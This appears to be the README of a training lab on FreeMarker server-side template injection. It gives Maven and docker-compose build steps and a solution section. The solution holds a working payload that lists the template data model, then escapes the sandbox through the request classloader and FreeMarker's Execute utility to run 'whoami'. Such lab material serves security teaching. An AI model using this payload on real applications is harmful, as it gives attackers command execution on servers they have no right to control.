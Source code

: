 # Template Injection Freemarker (Sandbox)

## Build instructions

Requirements:
 - Docker
 - Docker-compose
 - Maven
 - Java

```
mvn clean install
```

```
docker-compose up
```

## Solution

```
<#list .data_model?keys as key>
- ${key}
</#list>
```

```
<#assign classloader=req.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("whoami")}
```
